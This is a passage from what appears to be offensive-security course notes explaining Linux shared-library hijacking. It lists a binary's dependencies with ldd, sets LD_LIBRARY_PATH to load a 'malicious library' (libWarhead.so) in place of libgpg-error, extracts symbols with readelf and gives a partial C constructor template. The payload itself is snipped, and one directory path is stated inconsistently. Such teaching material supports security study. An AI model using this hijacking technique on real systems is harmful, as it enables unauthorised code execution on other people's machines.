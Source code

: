 ### Identifying Target Application Dependencies

Once the malicious shared library is created, you need to identify which libraries the target application depends on. You can do this using `ldd`, which prints the shared libraries required by a given binary.

Example with `/usr/bin/top`:

```bash
ldd /usr/bin/top

linux-vdso.so.1 (0x00007ffebbfc3000)
libprocps.so.6 => /lib/x86_64-linux-gnu/libprocps.so.6 (0x00007f20bb6ce000)
libtinfo.so.5 => /lib/x86_64-linux-gnu/libtinfo.so.5 (0x00007f20bb4a4000)
libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f20bb2a0000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f20baeaf000)
libsystemd.so.0 => /lib/x86_64-linux-gnu/libsystemd.so.0 (0x00007f20bac2b000)
/lib64/ld-linux-x86-64.so.2 (0x00007f20bbb34000)
librt.so.1 => /lib/x86_64-linux-gnu/librt.so.1 (0x00007f20baa23000)
liblzma.so.5 => /lib/x86_64-linux-gnu/liblzma.so.5 (0x00007f20ba7fd000)
liblz4.so.1 => /usr/lib/x86_64-linux-gnu/liblz4.so.1 (0x00007f20ba5e1000)
libgcrypt.so.20 => /lib/x86_64-linux-gnu/libgcrypt.so.20 (0x00007f20ba2c5000)
libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f20ba0a6000)
libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007f20b9e91000)
```

### Hijacking a Shared Library

To exploit the application, you can replace one of its legitimate shared libraries with your malicious library. In the example below, we set the `LD_LIBRARY_PATH` environment variable to a custom directory (`/home/offsec/ldlib/`) and place the malicious library there:

```bash
export LD_LIBRARY_PATH=/home/offsec
cp libWarhead.so libgpg-error.so.0
```

This command makes the system load `libWarhead.so` in place of `libgpg-error.so.0`, triggering the execution of the attacker's payload.

### Extracting Symbols

Shared libraries need to export specific symbols that the application expects. If the malicious library does not export the correct symbols, the application might crash or fail to load it.

You can extract the necessary symbols from the original library using `readelf`:

```bash
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
These then require placing into the template created earlier. Directly below the main constructor.
```c
// <-- Snip -->
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void Warhead() __attribute__((constructor));

int gpgrt_onclose;
int _gpgrt_putc_overflow;
int gpgrt_feof_unlocked;
int gpgrt_vbsprintf;
int gpgrt_ungetc;
// <-- Snip -->
```
